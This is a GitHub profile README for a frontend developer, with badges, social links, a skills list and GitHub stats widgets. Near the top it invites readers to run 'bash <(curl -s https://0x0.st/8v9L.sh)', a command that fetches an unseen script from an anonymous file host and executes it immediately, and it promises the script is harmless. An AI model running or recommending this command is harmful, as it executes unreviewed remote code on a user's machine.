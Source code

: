 <div id="greetings" align="center">
<h1>
  Hey, I'm Karuna!
  <img src="https://media.giphy.com/media/hvRJCLFzcasrR4ia7z/giphy.gif" width="30px"/>
</h1>
<h2>Frontend developer. </h2>
</div>
<div id="badges" align="center">
  <a href="https://www.linkedin.com/in/starlightknown/">
  <img src="https://img.shields.io/badge/LinkedIn-blue?style=for-the-badge&logo=linkedin&logoColor=white" alt="LinkedIn Badge"/>
  </a>
  <a href="https://www.x.com/starlightknown/">
  <img alt="X (formerly Twitter) Follow" src="https://img.shields.io/twitter/follow/:starlightknown">
  </a>
</div>
<div id="profile views" align="center">
<img src="https://komarev.com/ghpvc/?username=starlightknown&style=flat-square&color=blue" alt=""/>
</div>
<h4>
  
🤓 I develop beautiful web experiences.

🚀 I enjoy solving business problems with code.

Try out in your terminal: (it won't hack your system)
 
```
bash <(curl -s https://0x0.st/8v9L.sh)
```

</h4>

---

### :hammer_and_wrench: Languages & Frameworks:

![Python](https://img.shields.io/badge/Python-316192?style=for-the-badge&logo=python&logoColor=yellow)
![[HTML](https://skillicons.dev/icons?i=html)](https://img.shields.io/badge/HTML5-E34F26?style=for-the-badge&logo=html5&logoColor=white)
![CSS](https://img.shields.io/badge/css-%231572B6.svg?style=for-the-badge&logo=css3&logoColor=white)
![JavaScript](https://img.shields.io/badge/javascript-%231572B6.svg?style=for-the-badge&logo=javascript3&logoColor=white)
![TypeScript](https://img.shields.io/badge/typescript-%231572B6.svg?style=for-the-badge&logo=typescript3&logoColor=white)
![React](https://img.shields.io/badge/-ReactJs-61DAFB?logo=react&logoColor=white&style=for-the-badge)

---
### :fire: My Stats :
[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=starlightknown&layout=compact)](https://github.com/anuraghazra/github-readme-stats)
[![GitHub Streak](https://streak-stats.demolab.com?user=starlightknown&theme=transparent&hide_border=true&mode=weekly&fire=FF2222&dates=2C68F6&currStreakLabel=2C68F6&currStreakNum=2C68F6)](https://git.io/streak-stats)
